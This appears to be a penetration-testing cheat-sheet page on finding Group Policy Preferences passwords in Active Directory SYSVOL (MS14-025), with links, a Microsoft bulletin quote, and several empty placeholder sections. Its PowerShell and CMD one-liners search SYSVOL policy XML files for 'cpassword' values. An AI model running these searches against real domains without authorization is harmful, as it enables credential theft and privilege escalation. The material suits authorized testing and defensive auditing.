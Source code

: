# [Finding Passwords in SYSVOL & Exploiting Group Policy Preferences](https://adsecurity.org/?p=2288)

# [AD Hunting Passwords In SYSVOL](https://github.com/ahmetgurel/Pentest-Hints/blob/master/AD%20Hunting%20Passwords%20In%20SYSVOL.md)

# [Exploiting GPP SYSVOL (Groups.xml)](https://vk9-sec.com/exploiting-gpp-sysvol-groups-xml/)

# [Microsoft Security Bulletin MS14-025 - Important](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2014/ms14-025)

> The vulnerability could allow elevation of privilege if Active Directory Group Policy preferences are used to distribute passwords across the domain - a practice that could allow an attacker to retrieve and decrypt the password stored with Group Policy preferences.

### Extensions
```
*.xml , *.vbs , *.bat etc.
```

### TL;DR
```

```

### PowerShell
```
dir $env:logonserver\sysvol

dir \\$env:USERDNSDOMAIN\sysvol
findstr /S /I cpassword \\$env:USERDNSDOMAIN\sysvol\$env:USERDNSDOMAIN\policies\*.xml
```

### CMD
```
dir %logonserver%\sysvol

dir \\%USERDNSDOMAIN%\sysvol
findstr /S /I cpassword \\%USERDNSDOMAIN%\sysvol\%USERDNSDOMAIN%\policies\*.xml
```

### 
```

```

### Examples
```

```


### [%userdnsdomain% vs %logonserver%](https://www.reddit.com/r/sysadmin/comments/e01wot/userdnsdomain_and_logonserver_environment/?rdt=46812)
```
\\%logonserver%\sysvol\%userdnsdomain%
```

### 
```

```

### 
```

```

### 
```

```